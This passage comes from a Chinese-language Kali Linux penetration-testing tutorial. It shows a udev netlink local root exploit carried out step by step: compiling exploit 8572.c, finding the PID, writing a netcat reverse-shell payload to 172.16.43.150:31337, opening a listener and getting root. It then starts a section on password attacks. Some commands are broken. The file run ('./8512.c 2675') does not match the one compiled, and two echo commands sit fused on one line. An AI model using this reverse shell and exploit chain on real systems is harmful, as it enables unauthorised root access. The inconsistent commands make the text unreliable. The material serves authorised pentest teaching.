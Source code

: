 ```
gcc 8572.c -o 8572
```

现在我们的利用程序已经准备好使用了。根据源代码，我们发现这个利用程序需要`udevd netlink`套接字的**进程标识符**（**PID**）作为参数。我们可以通过发出以下命令来获取这个值：

```
cat /proc/net/netlink
```

以下截图显示了这个命令的结果：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/c6cf2b1a-be4f-45fd-af44-e5ebfaee662e.png)

您还可以通过发出以下命令来获取`udev`服务的 PID，即`1`：

```
ps aux | grep udev
```

以下命令行截图是前面命令的结果：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/161d8c29-c038-4bbe-9f59-81a642284182.png)

在真实的渗透测试过程中，您可能希望设置一个具有与目标相同内核版本的测试机器来测试利用程序。

根据我们对受害者机器的信息收集，我们知道这台机器安装了 Netcat。一旦利用运行，我们将使用 Netcat 连接回我们的机器，以便给我们 root 访问权限。根据利用源代码信息，我们需要将有效载荷保存在一个名为`run`的文件中：

```
echo '#!/bin/bash' > run echo '/bin/netcat -e /bin/bash 172.16.43.150 31337' >> run
```

我们还需要通过发出以下命令在攻击机器上启动 Netcat 监听器：

```
nc -vv -l -p 31337
```

唯一剩下的事情就是使用所需的参数运行利用程序：

```
./8512.c 2675
```

在我们的攻击机器上，我们可以看到以下消息：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-asr-sec-pentest/img/f178e1ca-9f8c-46dc-86da-db2de856fa83.png)

在发出`whoami`命令后，我们可以看到我们已成功将特权提升为 root。

# 密码攻击工具

目前密码被用作认证用户登录系统的主要方法。用户提交正确的用户名和密码后，系统将允许用户登录并根据该用户名的授权访问其功能。

以下三个因素可以用来对认证类型进行分类：

+   **你知道的东西**：这通常被称为认证的第一因素。密码属于这种类型。理论上，这个因素应该只有被授权的人知道。但在现实中，这个因素很容易泄露或被捕获；因此不建议使用这种方法对用户进行敏感系统的认证。
